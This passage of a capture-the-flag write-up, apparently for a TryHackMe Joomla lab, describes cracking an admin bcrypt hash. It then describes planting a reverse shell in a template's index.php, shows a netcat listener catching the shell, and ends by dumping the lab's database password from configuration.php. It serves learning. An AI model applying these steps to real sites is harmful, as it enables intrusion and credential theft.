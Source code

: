 Username, email and hashed password. I used hashcat to crack the hash. The `$2` indicates that the hash is a bcrypt hash.

It took a long time to crack the hash. But finally, the credential is- jonah:spiderman123

Then, I logged in to the administrator site. There is a message at the top:

<img src=https://github.com/user-attachments/assets/484e107d-9ea4-4f08-9800-323e09c85e08>

Seeing this, I thought the PHP version 5.4.60 was vulnerable to some exploit. But I couldn't find anything. In the LazyAdmin lab at TryHackMe, the web server uses a CMS named SweetRice, where
we uploaded the reverse PHP code into the Ad code and gained the reverse shell. Also, in one lab, I edited the code of the 404 page and gained the reverse shell.

So, I started surfing the admin panel to find where to change or add the reverse shell code. I found it as:

`Configuration>Templates>Templates>Protostar template`. I tried to upload the reverse shell, but it was showing error. So, I changed the code of the index.php file and reloaded the webpage, with
a NetCat listener opened on my machine.

```
┌──(kali㉿kali)-[~/Desktop/THM]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.48.76] 52666
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:42:00 up  1:32,  0 users,  load average: 0.01, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

```
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
        public $error_reporting = 'default';
...
```
